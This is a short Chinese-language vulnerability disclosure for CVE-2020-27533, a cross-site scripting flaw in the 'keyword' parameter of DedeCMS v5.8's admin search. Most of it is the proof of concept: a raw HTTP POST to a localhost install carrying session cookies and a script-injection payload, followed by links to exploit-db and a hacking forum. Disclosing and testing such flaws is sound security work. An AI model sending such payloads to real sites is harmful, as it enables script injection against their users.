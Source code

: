 # CVE-2020-27533 DedeCMS v.5.8搜索功能 "keyword"参数XSS漏洞 PoC

描述：

在DedeCMS v.5.8的搜索功能中 "keyword"参数参数发现了跨站点脚本（XSS）问题，该问题使恶意用户可以将代码注入到网页中，并且其他用户在查看网页时也会受到影响。

PoC :


```
POST /DedeCMSv5-master/src/dede/action_search.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/DedeCMSv5-master/src/dede/
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=dgj9gs48q9nbrckdq0ei5grjd7; _csrf_name_7ac3ea0e=8a824367d97bb8f984d4af7a1ad11308; _csrf_name_7ac3ea0e__ckMd5=c692dd4f707ea756; DedeUserID=1; DedeUserID__ckMd5=7e44b1ee92d784aa; DedeLoginTime=1603530632; DedeLoginTime__ckMd5=69967c5a8db15fb4; dede_csrf_token=80866e4429220e784f2514d38de9a5ea; dede_csrf_token__ckMd5=de396c60d5d75d93
Upgrade-Insecure-Requests: 1

keyword="><script>alert(1)</script>
```

https://www.exploit-db.com/exploits/48974

https://forum.ywhack.com/thread-114662-1-5.html